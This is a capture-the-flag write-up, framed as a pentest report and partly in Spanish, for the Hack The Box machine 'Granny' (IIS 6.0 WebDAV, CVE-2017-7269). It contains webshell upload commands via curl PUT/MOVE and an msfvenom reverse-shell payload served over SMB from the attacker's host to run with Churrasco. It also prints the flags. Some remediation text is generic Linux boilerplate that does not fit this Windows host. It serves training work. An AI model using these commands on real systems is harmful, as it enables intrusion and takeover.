# Security Assessment Report: Granny


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Granny** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell
* **Privilege Escalation Vector:** SeImpersonatePrivilege - Churrasco.exe (JuicyPotato)
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Granny |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | CVE-2017-7269 |
| **Initial Foothold Vector** | IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell |
| **Privilege Escalation Vector** | SeImpersonatePrivilege - Churrasco.exe (JuicyPotato) |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: SeImpersonatePrivilege - Churrasco.exe (JuicyPotato)
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

---

### Phase 1: Reconnaissance & Port Scanning

Se identifico **1 puerto TCP abierto** (puerto 80 - IIS 6.0). El servidor web es el unico servicio expuesto:



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


### Phase 2: Vulnerability Analysis & Attack Surface Mapping

El script de Nmap **http-webdav-scan** identifico los metodos HTTP permitidos en el servidor, revelando que WebDAV esta habilitado:



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


El servidor ejecuta el framework [**ASP.NET**](http://ASP.NET) sobre IIS 6.0:



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 3: Exploitation & Initial Foothold

El metodo HTTP **PUT** permite subir archivos al servidor a traves de WebDAV. Sin embargo, la subida directa de archivos .aspx esta bloqueada. La tecnica consiste en subir un archivo .txt con contenido ASPX y luego usar el metodo MOVE para renombrarlo a .aspx:



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


Alternativamente, la maquina es vulnerable to **CVE-2017-7269**, un buffer overflow en la funcion `ScStoragePathFromUrl` de IIS 6.0 WebDAV que allows remote code execution (RCE). El modulo de Metasploit `iis_webdav_scstoragepathfromurl` explota This vulnerability:



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 4: Local Privilege Escalation & Host Dominance

Se utilizo **local_exploit_suggester** de Metasploit para identificar rutas de escalada. La shell inicial se obtiene como `NT AUTHORITY\NETWORK SERVICE`, que tiene el privilegio **SeImpersonatePrivilege** habilitado.

### Metodo alternativo: WebShell + SMBServer + NC

Se puede explotar manualmente subiendo una webshell via PUT + MOVE:

```
curl -s -X PUT http://10.10.10.15/webshell.txt -d @webshell.aspx
curl -s -X MOVE -H "Destination:http://10.10.10.15/webshell.aspx" http://10.10.10.15/webshell.txt
```

Luego se usa `impacket-smbserver` para servir `nc.exe` y obtener reverse shell:



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 5: Proof of Compromise & Flag Capture

#### User Proof Flag Verification

Flag del usuario Lakis: `700c5dc163014e22b3e408f8703f67d1`



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


#### Root / System Proof Flag Verification

Flag del administrador: `aa4beed1c0584445ab463a6747bd06e9`



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


### Phase 4: Local Privilege Escalation & Host Dominance

Con el privilegio `SeImpersonatePrivilege` habilitado, se utilizo **Churrasco.exe** (variante de JuicyPotato para Windows Server 2003) para escalar a SYSTEM:

1. Generar payload: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4566 -f exe -o rev.exe`
2. Servir archivos via SMB: `sudo impacket-smbserver smbFolder $(pwd)`
3. Ejecutar Churrasco: `\\10.10.14.8\smbFolder\churrasco.exe "\\10.10.14.8\smbFolder\rev.exe"`
4. Shell obtenida como `NT AUTHORITY\SYSTEM`

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell**<br>*Precondition:* Publicly exposed web application endpoint allowing unauthenticated file execution or weak credential access. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Restrict webroot write permissions, disable script execution in upload directories, and implement WAF filtering. | `powershell -Command "Get-WebConfigurationProperty -Filter 'system.webServer/handlers' -PSPath 'IIS:\Sites\Default Web Site\uploads' -Name 'accessPolicy'"` |
| **P1: SeImpersonatePrivilege - Churrasco.exe (JuicyPotato)**<br>*Precondition:* Service account granted `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` rights. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Remove impersonation privileges from service accounts using Group Policy; leverage virtual service accounts. | `whoami /priv | findstr /i 'SeImpersonatePrivilege'` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
powershell -Command "Get-WebConfigurationProperty -Filter 'system.webServer/handlers' -PSPath 'IIS:\Sites\Default Web Site\uploads' -Name 'accessPolicy'"
```
* **Expected Output upon Successful Remediation:**
```text
accessPolicy : Read, None (Execute/Script strictly forbidden)
```

**2. Verification for Local Privilege Escalation Mitigation (SeImpersonatePrivilege - Churrasco.exe (JuicyPotato)):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
whoami /priv | findstr /i 'SeImpersonatePrivilege'
```
* **Expected Output upon Successful Remediation:**
```text
INFO: SeImpersonatePrivilege is not assigned or listed as Disabled.
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (CVE-2017-7269).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (IIS 6.0 WebDAV ScStoragePathFromUrl Buffer Overflow + PUT/MOVE WebShell) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (SeImpersonatePrivilege - Churrasco.exe (JuicyPotato)) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
